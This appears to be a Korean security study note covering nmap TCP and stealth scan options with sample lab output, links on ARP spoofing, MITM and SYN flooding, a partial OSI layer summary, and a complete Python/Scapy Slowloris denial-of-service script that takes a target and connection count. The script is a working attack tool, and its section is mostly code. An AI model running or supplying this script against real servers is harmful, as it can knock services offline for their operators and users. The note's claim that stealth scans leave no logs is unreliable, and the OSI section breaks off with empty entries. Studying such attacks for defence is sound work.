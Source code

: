 ## IT서비스와 정보보안

> TCP Open Scan
>
> - 정상적인 TCP 3-Way Handshaking 과정으로 통해서 사용 중인 포트를 확인
>   - 포트가 열려있으면 		: SYN -> SYN/ACK -> ACK
>   - 포트가 열려있지 않으면  : SYN -> RST/ACK
>   - nmap -st 호스트_IP PORT_NO
>
> ```
> nmap -sT HOST_IP 
> 
> root@kali:~# nmap -sT 192.168.87.128
> 
> Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2019-12-09 12:57 EST
> setup_target: failed to determine route to 80 (0.0.0.80)
> Nmap scan report for 192.168.87.128
> Host is up (0.017s latency).
> Not shown: 998 closed ports
> PORT   STATE SERVICE
> 23/tcp open  telnet
> 80/tcp open  http
> MAC Address: 00:50:56:24:73:F1 (VMware)
> 
> Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
> 
> ```
>
> 
>
> Stealth Scan
>
> - 3 way handshaking 과정을 거치지 않기 때문에 로그가 남지 않는다.
>
>   - TCP half open scan / TCP SYN open scan 	=>	 -sS
>
>   - FIN scan, XMAS scan, NULL scan
>
>     - FIN :  FIN							=> -sF
>     - XMAS : FIN, PSH, URG	=> 	-sX
>     - NULL :							=> -sN 
>
>     => 포트가 열려 있으면 -> 무응답
>
>     => 포트가 닫혀 있으면 -> RST/ACK

---

- ARP Spoofing

https://myanjini.tistory.com/76

- MITM(Man In The Middle) attack

https://myanjini.tistory.com/77

- Port Scanning

https://myanjini.tistory.com/75

- Scapy 사용법

https://myanjini.tistory.com/78

- Scapy를 이용한 3-way handshaking

https://myanjini.tistory.com/79

- TCP SYN Flooding

https://myanjini.tistory.com/80





#### 4-1. OSI 7계층

- 물리 계층(1계층)

물리 계층은 실제 장치를 연결하기 위한 전기적ㆍ물리적 세부 사항을 정의한 계층

- 데이터 링크 계층(2계층)

데이터 링크 계층은 두 지점 간의 신뢰성 있는 전송을 보장하기 위한 계층

- 네트워크 계층(3계층)

네트워크 계층은 여러 개의 노드를 거칠 때마다 경로를 찾아주는 역할을 한다. 다양한 길이의 데이터를 네트워크를 통해 전달하고, 전송 계층이 요구하는 서비스 품질QOS을 위해 기능적ㆍ절차적 수단을 제공

- 전송 계층(4계층)

전송 계층은 양 끝단의 사용자들이 신뢰성 있는 데이터를 주고받게 함으로써 상위 계층이 데이터 전달의 유효성이나 효율성을 신경 쓰지 않게 해준다.

- 세션
- 표현
- 응용 프로그램





- Slowloris Attack
  - HTTP 요청 헤더와 본문이 개행문자로 구분되는 특징을 이용한 공격
  - 헤더의 끝을 나타내는 개행문자를 전달하지 않아 서버가 연결을 유지하도록 하는 공격

```
#! /usr/bin/env python↓

import sys
import time
from scapy.all import *

def slowloris (target, num) :
    print "start connect > {}".format(target)
    syn = []
    for i in range(num) :
        syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    syn_ack = sr(syn, verbose=0)[0]

    ack = []
    for sa in syn_ack :
        payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
        "Host: {}\r\n".format(target) +\
        "User-Agent: Mozilla/4.0\r\n" +\
        "Content-Length: 42\r\n"

        ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
    
    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: b\\r\\n\".."

    count = 1
    while True :
        print "{} time sending".format(count)
        ack = []
        for ans in answer :
            ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
        answer = sr(ack, inter=0.5, verbose=0)[0]
        time.sleep(10)
        count += 1

if __name__ == "__main__" :
    if len(sys.argv) < 3 :
        print "Usage: {} <target> <number of connection>".format(sys.argv[0])
        sys.exit(1)
    slowloris(sys.argv[1], int(sys.argv[2]))


```

